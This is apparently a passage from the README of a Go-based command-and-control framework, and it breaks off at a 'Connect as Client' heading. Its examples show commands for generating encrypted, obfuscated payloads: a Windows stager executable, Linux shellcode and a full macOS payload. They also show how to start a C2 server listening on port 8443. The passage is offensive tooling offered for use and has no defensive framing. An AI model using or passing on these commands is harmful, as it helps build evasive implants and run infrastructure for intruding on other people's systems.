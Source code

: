 
## Examples

### 1. Generate Windows Stager Payload

```bash
go run main.go --mode generate \
    --payload stager \
    --os windows \
    --arch amd64 \
    --output windows_stager.exe \
    --encrypt \
    --obfuscate
```

### 2. Generate Linux Shellcode

```bash
go run main.go --mode generate \
    --payload shellcode \
    --os linux \
    --arch amd64 \
    --output linux_shellcode.bin
```

### 3. Generate Full macOS Payload

```bash
go run main.go --mode generate \
    --payload full \
    --os darwin \
    --arch amd64 \
    --output macos_full.bin \
    --encrypt \
    --obfuscate
```

### 4. Start Server

```bash
# Start C2 server
go run main.go --mode server \
    --listen 0.0.0.0:8443 \
    --debug

# Or with config file
go run main.go --mode server \
    --config config.json \
    --listen 0.0.0.0:8443
```

### 5. Connect as Client
